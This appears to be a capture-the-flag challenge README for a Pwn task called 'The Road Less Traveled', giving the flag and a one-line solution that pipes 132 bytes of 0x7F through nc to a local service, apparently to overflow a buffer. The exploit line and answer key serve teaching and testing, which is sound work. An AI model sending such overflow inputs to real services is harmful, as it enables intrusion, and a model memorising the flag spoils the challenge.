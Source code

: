 # The Road Less Traveled/bo
## Author
Cohen
## Points
100
## Category
Pwn
## Description
exploit this
## Flag
`flag{exploitation_is_easy!}`
## Solution
`python -c 'print "\x7F"*132' | nc localhost 1515 | xxd`
## Setup

